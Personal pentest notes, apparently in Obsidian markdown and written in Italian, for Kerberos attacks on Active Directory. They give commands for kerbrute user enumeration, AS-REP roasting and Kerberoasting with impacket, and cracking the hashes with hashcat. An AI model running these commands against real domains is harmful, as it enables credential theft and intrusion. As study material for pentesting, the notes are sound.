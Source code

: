 
==Se da errore KRB_AP_ERR_SKEW==
```bash
timedatectl set-ntp false
ntpdate <IP>
```
### **ENUM USER**
==GLI USER POTRESTI ANCHE BRUTEFORZARLI O TROVARLI TRA I METADATA DELLE IMMAGINI SUL SITO==
```bash
kerbrute userenum -d <NOME DOMINIO> --dc <IP DC> <LISTA>
```
![[Pasted image 20230510110607.png]]
### **AspeRoasting**

```bash
impacket-GetNPUsers '<NOME DOMINIO>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
==L'HASH VIENE MESSO NEL FILE DI OUTPUT==
Dopo cracca l'hash
### **Kerberoasting**
```bash
impacket-GetUserSPNs <NOME MACCHINA>/<USER>:<PASS> -request
```
### **TGT BruteForce**
### **CRACK KRB5 HASH**
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### **SILVER TICKET**
